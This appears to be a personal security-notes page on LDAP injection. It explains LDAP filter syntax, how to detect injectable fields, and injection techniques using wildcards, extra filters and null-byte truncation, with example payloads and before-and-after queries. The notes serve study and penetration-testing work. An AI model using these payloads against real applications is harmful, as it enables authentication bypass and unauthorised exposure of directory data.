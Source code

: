 ```yaml
---
layout: page
title:  "LDAP injections"
permalink: "ldap-injections.html"
---
```

# Introduction
* LDAP: Lightweight Directory Access Protocol
* Used to access directory services over a network. Directory: hierarchically organized data store
* Examples:
  * Microsoft ADAM (Active Directory Application Mode)
  * OpenLDAP
* Commonly used in intranet-base web applications
* Simple match conditions on the value of one attribute: `(username=greg)`
* Disjunctive queries: `(|(cn=searchterm)(sn=searchterm)(ou=searchterm))`
* Conjunctive queries: `(&(username=greg)(password=dumbpassword))`
* Not possible to retrieve different attributes than the query was intended to retrieve
* Rarely return informative error message: blind LDAP injection


# Detection
* Available informations: results returned, HTTP 500 error
* Differentiating between SQL and LDAP: wildcard character `*`
* Number of closing brackets: `)))))))))`. May break something else, so need to make sure we're dealing with LDAP before
* `cn` attribute (supported on all LDAP implementations):
  * `)(cn=*`
  * `*))(|(cn=*`
  * `*))%00`


# Injections
* Wildcard: `)(department=*)`
```
(|(department=London searchterm)(departement=Reading searchterm))       # Original query
(|(department=London)(department=*)(department=Reading)(department=*))  # Modified query
```
* If multiple search filters allowed (OpenLDAP for example): `*))(&(username=searchterm`
```
(&(username=searchterm)(department=London*))                 # Original query
(&(username=*))(&(username=searchterm)(department=London*))  # Modified query
```

* Null bytes comments: `*))%00`
```
(&(username=searchterm)(department=London*))      # Original query
(&(username=*)) [NULL byte](department=London*))  # Modified query. Everything after the null byte is ignored
```
